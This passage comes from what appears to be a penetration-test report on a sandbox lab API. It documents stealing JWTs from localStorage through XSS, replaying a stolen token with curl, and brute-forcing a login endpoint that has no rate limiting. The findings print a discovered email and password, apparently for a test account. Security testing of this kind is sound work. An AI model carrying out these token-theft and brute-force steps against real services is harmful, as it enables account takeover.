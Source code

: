     ```
    <https://capital-api.sandbox.local:4100>
    
    ```
    
2. Demonstrate JavaScript access to stored tokens:
    
    ```jsx
    // Simulate XSS attack stealing token
    const stolenToken = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...";
    localStorage.setItem('jwt', stolenToken);
    
    // Verify token is accessible
    localStorage.getItem('jwt'); // Returns the token
    
    ```
    
3. Use stolen token to access protected resources:
    
    ```bash
    curl -X GET <http://capital-api.sandbox.local:8000/api/user> \\
      -H "Authorization: Token [STOLEN_JWT_TOKEN]"
    
    ```
    

**Proof of Impact:**
Successfully demonstrated that JWT tokens can be injected and retrieved via JavaScript `localStorage.getItem('jwt')`. This proves any XSS attack can steal authentication tokens for session hijacking.

### AUTH-VULN-02: No Rate Limiting Enables Brute Force

**Summary:**

- **Vulnerable location:** `POST /api/v2/users/login`
- **Impact:** Unlimited brute force attacks discovered valid credentials and compromised accounts
- **Severity:** High

**Exploitation Steps:**

1. Automated brute force attack against login endpoint with 25 password attempts:
    
    ```
    Target: bob_dev@checkmarx.com
    Passwords tested: ["password", "123456", "admin", "test", "IamDev", ...]
    
    ```
    
2. Script processed all attempts without rate limiting:
    - Total attempts: 25
    - No HTTP 429 responses
    - No progressive delays
    - No account lockout
3. Successfully discovered valid credentials:
    
    ```
    Email: bob_dev@checkmarx.com
    Password: IamDev
    